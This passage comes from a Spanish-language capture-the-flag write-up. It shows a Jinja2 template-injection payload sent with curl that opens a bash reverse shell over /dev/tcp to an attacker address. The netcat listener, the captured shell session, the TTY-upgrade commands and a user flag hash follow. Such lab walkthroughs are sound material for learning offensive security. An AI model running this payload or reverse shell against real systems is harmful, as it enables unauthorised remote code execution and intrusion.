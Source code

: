 Vemos que efectivamente te lo esta multiplicando, por lo que vamos a realizar una `reverse shell` de estar forma:

```shell
curl -i 'http://<IP>:50000/?cmd=%7B%7B%20self._TemplateReference__context.joiner.__init__.__globals__.os.popen%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/<IP>/<PORT>%200%3E%261%22%27%29.read%28%29%20%7D%7D' # {{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"').read() }}
```

Ahora si nos ponemos a la escucha antes de enviar el `payload`.

```shell
nc -lvnp <PORT>
```

Si enviamos ese `curl` y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.4] from (UNKNOWN) [192.168.5.27] 36888
bash: cannot set terminal process group (294): Inappropriate ioctl for device
bash: no job control in this shell
paul@preload:/$ whoami
whoami
paul
```

Veremos que ha funcionado por lo que sanitizaremos la `shell`.

### Sanitizacion de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Vamos a leer la `flag` del usuario.

> us3r.txt

```
52f83ff6877e42f613bcd2444c22528c
```

## Escalate Privileges
